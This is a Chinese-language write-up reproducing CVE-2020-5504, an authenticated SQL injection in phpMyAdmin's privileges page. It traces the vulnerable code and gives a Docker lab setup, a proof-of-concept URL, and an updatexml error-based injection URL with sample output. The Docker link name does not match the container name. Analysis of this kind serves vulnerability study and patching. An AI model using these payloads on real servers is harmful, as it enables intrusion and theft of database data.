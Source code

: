 （CVE-2020-5504）Phpmyadmin 后台sql注入漏洞
===========================================

一、漏洞简介
------------

在用户帐户页面中发现了一个SQL注入漏洞。创建对此页面的查询时，恶意用户可能会注入自定义SQL来代替其自己的用户名。攻击者必须具有有效的MySQL帐户才能访问服务器。

二、漏洞影响
------------

Phpmyadmin \<= 5.00

Phpmyadmin \<= 4.94

三、复现过程
------------

### 环境搭建

docker一把梭

    docker run --name mysql5.6 -e MYSQL_ROOT_PASSWORD=123456 -d mysql:5.6

\`docker run \--name myadmin -d \--link mysql5.7:db -p 8080:80
phpmyadmin/phpmyadmin:5.0

### 溯源和构造poc

下载前一个版本
5.0.0的[代码压缩包](https://files.phpmyadmin.net/phpMyAdmin/5.0.0/phpMyAdmin-5.0.0-english.zip)后,
打开`libraries/classes/Server/Privileges.php` 来到对应行.

    if (isset($_GET['validate_username'])) {
                $sql_query = "SELECT * FROM `mysql`.`user` WHERE `User` = '"
                    . $_GET['username'] . "';";
                // 省略 节省篇幅
            }

很显然可以看出注入点是`$_GET['username']`,而需要设置`$_GET['validate_username']`

往上看, 这段代码位于`public function getExtraDataForAjaxBehavior`函数.

搜索上层调用来到`/server_privileges.php` 的这段代码

    if ($response->isAjax()
        && empty($_REQUEST['ajax_page_request'])
        && ! isset($_GET['export'])
        && (! isset($_POST['submit_mult']) || $_POST['submit_mult'] != 'export')
        && ((! isset($_GET['initial']) || $_GET['initial'] === null
        || $_GET['initial'] === '')
        || (isset($_POST['delete']) && $_POST['delete'] === __('Go')))
        && ! isset($_GET['showall'])
        && ! isset($_GET['edit_user_group_dialog'])
    ) {
        $extra_data = $serverPrivileges->getExtraDataForAjaxBehavior(
            (isset($password) ? $password : ''),
            (isset($sql_query) ? $sql_query : ''),
            (isset($hostname) ? $hostname : ''),
            (isset($username) ? $username : '')
        );

        if (! empty($message) && $message instanceof Message) {
            $response->setRequestStatus($message->isSuccess());
            $response->addJSON('message', $message);
            $response->addJSON($extra_data);
            exit;
        }
    }

可以发现if里大部分条件都可控, 除了`$response->isAjax()`

    public function isAjax(): bool
        {
            return $this->_isAjax;
        }

查看构造函数

    /**
         * Creates a new class instance
         */
        private function __construct()
        {
            if (! defined('TESTSUITE')) {
                $buffer = OutputBuffering::getInstance();
                $buffer->start();
                register_shutdown_function([$this, 'response']);
            }
            $this->_header = new Header();
            $this->_HTML   = '';
            $this->_JSON   = [];
            $this->_footer = new Footer();

            $this->_isSuccess  = true;
            $this->_isDisabled = false;
            $this->setAjax(! empty($_REQUEST['ajax_request']));
            $this->_CWD = getcwd();
        }

可以看到这条件在于`$_REQUEST['ajax_request']`是否为空.

根据上面的几个条件 我们可以构造出如下最简单的poc

    http://127.0.0.1:8080/server_privileges.php?ajax_request=true&validate_username=true&username=test%27%22

登陆后(这个操作需要权限) 尝试访问上面的url.返回如下

    {"success":false,"error":"<div class=\"error\"><h1>Error<\/h1><p><strong>Static analysis:<\/strong><\/p><p>1 errors were found during analysis.<\/p><p><ol><li>Ending quote \" was expected. (near \"\" at position 53)<\/li><\/ol><\/p><p><strong>SQL query:<\/strong>  <a href=\"#\" class=\"copyQueryBtn\" data-text=\"SELECT * FROM `mysql`.`user` WHERE `User` = 'test'&quot;';\">Copy<\/a>\n<a href=\".\/url.php?url=https%3A%2F%2Fdev.mysql.com%2Fdoc%2Frefman%2F5.6%2Fen%2Fselect.html\" target=\"mysql_doc\"><img src=\"themes\/dot.gif\" title=\"Documentation\" alt=\"Documentation\" class=\"icon ic_b_help\"><\/a><a href=\"server_sql.php?sql_query=SELECT+%2A+FROM+%60mysql%60.%60user%60+WHERE+%60User%60+%3D+%27test%27%22%27%3B&amp;show_query=1\"><span class=\"nowrap\"><img src=\"themes\/dot.gif\" title=\"Edit\" alt=\"Edit\" class=\"icon ic_b_edit\">&nbsp;Edit<\/span><\/a>    <\/p>\n<p>\nSELECT * FROM `mysql`.`user` WHERE `User` = 'test'&quot;';\n<\/p>\n<p>\n    <strong>MySQL said: <\/strong><a href=\".\/url.php?url=https%3A%2F%2Fdev.mysql.com%2Fdoc%2Frefman%2F5.6%2Fen%2Ferror-messages-server.html\" target=\"mysql_doc\"><img src=\"themes\/dot.gif\" title=\"Documentation\" alt=\"Documentation\" class=\"icon ic_b_help\"><\/a>\n<\/p>\n<code>#1064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '&quot;'' at line 1<\/code><br><\/div>"}

一个sql报错信息, 说明这个最短poc生效了

利用的话 反正都回显了 直接updatexml报错注入

    http://127.0.0.1:8080/server_privileges.php?ajax_request=true&validate_username=true&username=test%27%20and%20(select%20updatexml(1,concat(0x7e,(SELECT%20@@version),0x7e),1))%20--%20

在返回最下面可以看到`#1105 - XPATH syntax error: '~5.6.46~'`

### 后言

这个洞要求一个可以登录的账号才能注入. ,
另外这个请求似乎也不需要`csrf-token`(不过似乎没什么用)

参考链接
--------

> <https://xz.aliyun.com/t/7092>
